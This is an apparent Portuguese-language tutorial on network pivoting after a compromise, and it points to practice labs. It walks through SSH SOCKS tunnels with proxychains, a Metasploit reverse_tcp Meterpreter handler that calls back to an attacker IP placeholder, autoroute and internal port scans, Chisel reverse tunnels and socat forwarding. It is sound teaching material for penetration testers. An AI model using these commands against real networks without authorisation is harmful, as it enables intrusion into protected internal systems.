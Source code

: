 
### Pivoting

O Pivoting (também chamado de port forwarding ou tunneling) é uma técnica usada em pós-exploração para acessar redes internas protegidas. Essa estratégia permite que um atacante utilize uma máquina comprometida como ponto de salto (pivot) para alcançar sistemas que normalmente não estariam acessíveis externamente.

---

### Objetivo do Pivoting

- Acessar redes internas que não são diretamente expostas à internet.-

- Explorar sistemas dentro da rede interna sem necessidade de acesso físico.

- Criar túneis seguros para desviar o tráfego de rede.

---

### Tipos de Pivoting

### 1. Pivoting com SSH (Dynamic Port Forwarding)

O SSH Tunneling pode ser usado para redirecionar tráfego de uma máquina atacante para a rede interna via uma máquina comprometida.

- Criando um túnel SSH para redirecionar tráfego:

    ~~~bash
    ssh -D 9050 -N -f usuario@maquina_pivot
    ~~~

    - `-D 9050`: Cria um proxy SOCKS na porta 9050.
    
    - `-N`: Não abre um shell interativo.
    
    - `-f`: Envia o processo para o background.

- Usar o túnel como proxy SOCKS com proxychains:

    -  Configurar `/etc/proxychains.conf` para usar `socks5 127.0.0.1 9050`

    - Executar comandos via proxy:

        ~~~bach
        proxychains nmap -sT -Pn -p 22 192.168.1.100
        ~~~

### 2. Pivoting com Metasploit

O Metasploit permite fazer pivoting usando a funcionalidade de port forwarding.

- Criar uma sessão Meterpreter na máquina pivot:

~~~bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <IP-DO-ATACANTE>
set LPORT 4444
exploit
~~~

- Criar um túnel para acessar a rede interna:

~~~bash
meterpreter > run autoroute -s 192.168.1.0/24
~~~

- Executar um scan na rede interna usando Metasploit:

~~~bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 22,80,445
exploit
~~~

### 3. Pivoting com Chisel (Port Forwarding)

O Chisel é uma ferramenta leve para criação de túneis TCP/UDP via HTTP, útil quando o SSH ou Metasploit não podem ser usados.

- Baixar e executar Chisel na máquina atacante:

~~~bash
./chisel server --port 8000 --reverse
~~~

- Na máquina comprometida (cliente):

~~~bash
./chisel client <IP-DO-ATACANTE>:8000 R:1080:socks
~~~

- Usar o proxy SOCKS criado para acessar a rede interna:

~~~bash
proxychains nmap -sT -Pn -p 22 192.168.1.100
~~~

### 4. Pivoting com Socat

O Socat permite criar túneis TCP para acessar portas em redes internas.

- Criar um redirecionamento na máquina pivot:

~~~bash
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:22
~~~

*Isso faz um port forwarding da porta 22 da máquina-alvo para a porta 8080 do atacante.*

- Acessar o serviço via SSH:

~~~bash
ssh -p 8080 usuario@localhost
~~~

---

### Conclusão

O Pivoting é essencial para avançar em redes internas protegidas e explorar sistemas que não estão diretamente acessíveis. Com técnicas como SSH Tunneling, Metasploit, Chisel e Socat, é possível criar túneis e desviar tráfego de rede para ganhar controle total sobre um ambiente comprometido.

### Laboratórios Online

Se você quer praticar sem configurar um ambiente do zero, há plataformas que oferecem desafios realistas:

🔹 TryHackMe (tryhackme.com)

- Possui laboratórios específicos para pivoting, tunneling, e red teaming.
  - Algumas salas recomendadas:
    - "Pivoting" – Explica o conceito e ensina técnicas práticas.
    - "Offensive Security" – Cobre SSH Tunneling e pivoting com Metasploit.
    - "Red Teaming Fundamentals" – Ensina técnicas avançadas para acesso interno.


🔹 Hack The Box (hackthebox.com)

- Oferece máquinas virtuais para invadir e pivotar entre redes internas.
    - Algumas máquinas recomendadas:
      - "Jeeves" – Exemplo de pivoting via SOCKS5.
      - "Active" – Exploração de redes internas usando proxychains.
      - "Access" – Foca em port forwarding com SSH e Netcat.


🔹 AttackDefense (attackdefense.com)

- Laboratórios interativos que permitem testar pivoting sem necessidade de configurar um ambiente local.

---